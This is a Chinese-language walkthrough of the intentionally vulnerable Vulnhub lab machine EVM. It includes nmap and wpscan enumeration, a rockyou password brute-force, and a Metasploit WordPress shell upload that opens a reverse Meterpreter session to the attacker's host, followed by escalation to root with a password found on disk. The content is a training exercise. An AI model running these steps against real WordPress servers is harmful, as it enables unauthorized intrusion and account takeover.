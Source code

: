 ```yaml
---
layout: post
title: "EVM walkthrough"
date: 2021-07-10
author: 2hanx
toc: true
categories: [Vulnhub]
tags: []
---
```


### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机        | IP              |
| ------------- | --------------- |
| 本机（Win10） | `192.168.1.115` |
| Kali          | `192.168.1.116` |
| EVM           | `192.168.1.121` |

### 扫描端口和版本信息

`nmap -A 192.168.1.121`

```shell
┌──(root💀kali)-[~]
└─# nmap -A 192.168.1.121
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-10 00:36 UTC
Nmap scan report for 192.168.1.121
Host is up (0.0071s latency).
Not shown: 993 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 85:48:53:2a:50:c5:a0:b7:1a:ee:a4:d8:12:8e:1c:ce (ECDSA)
|_  256 36:22:92:c7:32:22:e3:34:51:bc:0e:74:9f:1c:db:aa (ED25519)
53/tcp  open  domain      ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: PIPELINING CAPA AUTH-RESP-CODE SASL UIDL RESP-CODES TOP
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: ENABLE ID IDLE post-login have SASL-IR more listed capabilities LOGINDISABLEDA0001 Pre-login LITERAL+ IMAP4rev1 LOGIN-REFERRALS OK
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
MAC Address: A8:66:7F:1B:19:D8 (Apple)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: UBUNTU-EXTERMELY-VULNERABLE-M4CH1INE; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h19m59s, deviation: 2h18m33s, median: 0s
|_nbstat: NetBIOS name: UBUNTU-EXTERMEL, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: ubuntu-extermely-vulnerable-m4ch1ine
|   NetBIOS computer name: UBUNTU-EXTERMELY-VULNERABLE-M4CH1INE\x00
|   Domain name: \x00
|   FQDN: ubuntu-extermely-vulnerable-m4ch1ine
|_  System time: 2021-07-09T20:37:03-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-07-10T00:37:03
|_  start_date: N/A
```

结果显示靶机除了开启比较正常的**22**、**80**端口外，还开启了邮件服务、Samba服务以及DNS解析服务（**53**端口）。此外使用*dirb*工具枚举目录可知，网站存在执行*phpinfo()*代码的*/info.php*页面和*/wordpress/*路径。

> 另一方面作者在Apache默认页面中也给出了提示信息：`you can find me at /wordpress/ im vulnerable webapp :) `

### 访问Web

在访问*/wordpress/index.php*时，发现其他资源请求的IP地址是*192.168.56.103*，因此可以在Linux中通过*iptables*添加规则，将IP地址映射为*192.168.1.121*即可正常显示。

> 通过修改*/etc/hosts*文件则不会成功，因为该文件是将名称映射到IP地址上，而不是直接在IP地址之间映射

因为网站搭建的是WordPress CMS，那么就直接选择用*wpscan*工具进行扫描，首先进行用户枚举：

```shell
┌──(root💀kali)-[~]
└─# wpscan --url http://192.168.1.121/wordpress/ -e u
_______________________________________________________________
...
[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:11 <================================> (10 / 10) 100.00% Time: 00:00:11

[i] User(s) Identified:

[+] c0rrupt3d_brain
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
 ...
```

得到一个用户名：*c0rrupt3d_brain*，再经过枚举插件无果后进行密码爆破：

```shell
┌──(root💀kali)-[~]
└─# wpscan --url http://192.168.1.121/wordpress/ -U c0rrupt3d_brain -P /usr/share/wordlists/Passwords/Leaked_Databases/rockyou-60.txt -t 100
_______________________________________________________________
...
[!] Valid Combinations Found:
 | Username: c0rrupt3d_brain, Password: 24992499
...
```

至此我们得到了一个用户名和密码：*c0rrupt3d_brain:24992499*

### Getshell

使用*msfconsole*中的WordPress脚本进行登录：

```shell
┌──(root💀kali)-[~]
└─# msfconsole
...
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password 24992499
password => 24992499
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts 192.168.1.121
rhosts => 192.168.1.121
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set targeturi /wordpress
targeturi => /wordpress
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username c0rrupt3d_brain
username => c0rrupt3d_brain
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 192.168.1.116:4444
[*] Authenticating with WordPress using c0rrupt3d_brain:24992499...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wordpress/wp-content/plugins/cJpylkzjQl/hagJoxAcqj.php...
[*] Sending stage (39282 bytes) to 192.168.1.121
[*] Meterpreter session 1 opened (192.168.1.116:4444 -> 192.168.1.121:39460) at 2021-07-10 09:01:58 +0000
[+] Deleted hagJoxAcqj.php
[+] Deleted cJpylkzjQl.php
[+] Deleted ../cJpylkzjQl

meterpreter >
```

探寻后在*/home/root3r/.root_password_ssh.txt*文件中发现*root*账户的密码：*willy26*

### 提权

通过*root:willy26*账户名和密码切换到*root*账户即可：

```shell
meterpreter > shell
Process 10861 created.
Channel 2 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
su root
su: must be run from a terminal
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r$

www-data@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r$ ls
ls
test.txt
www-data@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r$ su root
su root
Password: willy26

root@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r#
```

最后在*/root/proof.txt*文件中得到flag：

```shell
root@ubuntu-extermely-vulnerable-m4ch1ine:~# cat proof.txt
cat proof.txt
voila you have successfully pwned me :) !!!
:D
root@ubuntu-extermely-vulnerable-m4ch1ine:~#
```

### 总结

1. 对WordPress CMS 进行密码爆破时优先选择*wpscan*，而不是*hydra*等类似工具，命令为：`wpscan --url http://192.168.1.121/wordpress/ -U c0rrupt3d_brain -P /usr/share/wordlists/Passwords/Leaked_Databases/rockyou.txt -t 100`
2. 对WordPress CMS上传shell，并且在网页进行登录比较麻烦的情况下可选择*msfconsole*渗透框架中的*/exploit/unix/webapp/wp_admin_shell_upload*脚本。